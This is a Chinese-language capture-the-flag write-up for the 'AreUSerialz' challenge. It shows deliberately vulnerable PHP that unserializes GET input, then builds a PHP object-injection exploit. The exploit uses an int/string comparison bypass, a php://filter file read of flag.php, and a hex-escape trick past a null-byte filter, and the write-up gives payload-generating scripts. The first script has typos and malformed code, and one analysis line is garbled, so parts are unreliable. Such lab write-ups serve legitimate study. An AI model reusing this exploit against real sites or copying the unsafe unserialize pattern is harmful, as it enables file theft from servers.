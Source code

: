 题目:网鼎杯 2020 青龙组]AreUSerialz 1

```php
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}
```

分析:</br>
明确一点:_construct() 在反序列化的时候不会明确调用，相反，_destruct() 函数肯定会调用
```php
    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }
```
这里，我们应该想办法读取文件，于是，op必须是2，但由于==="2",可以使用int 2绕过;
接下来 在 process函数调用 read() 函数，利用php伪协议读取文件
```php
php://filter/read=convert.base64-encode/resource=flag.php
```
删减后:
```php
class FileHandler {

    protected $op;
    protected $filename;
    protected $content;
    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }
    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }
        function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }
}
    if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

```
还应注意到:
is_valid() 函数过滤了不可见字符
例子
```php
class ctf{
    private $a=1;
    protected $b=2;
}
//输出:
O%3A3%3A%22ctf%22%3A2%3A%7Bs%3A6%3A%22%00ctf%00a%22%3Bi%3A1%3Bs%3A4%3A%22%00%2A%00b%22%3Bi%3A2%3B%7D
```
而在 反序列化中:
```
protected:%00*%00
```
1）o p , op,op,filename,$content三个变量权限都是protected，而protected权限的变量在序列化的时会有%00*%00字符，%00字符的ASCII码为0，就无法通过上面的is_valid函数校验
　　利用大写S采用的16进制，来绕过is_valid中对空字节的检查。 //00 替换 %00 。
　（2）强比较和弱比较的利用。将op设置为int型的2，op === "2"为false，op == "2"为true,绕过析构函数中的if判断，同时又可以调用到读文件的流程
于是构造payload
```php
<? php
class FileHandler {
    protected $op=2;
    protected $filename=flag.php;
    protected $content;
}
$a=new FileHandler();
$b = urlencode(serialize($a));
$b = str_replace('s','S',$b);
$b = str_repalace('%00%','\\00',$b);
echo $b;
```
第二种方法:
```php
   class FileHandler{
   public $op=2;
   public $filename="php://filter/read=convert.base64-encode/resource=flag.php";
   public $content=2;
   }
   $a = new FileHandler();
   echo serialize($a);  
```
本地 php7.1 public 和 protected 反序列化后无区别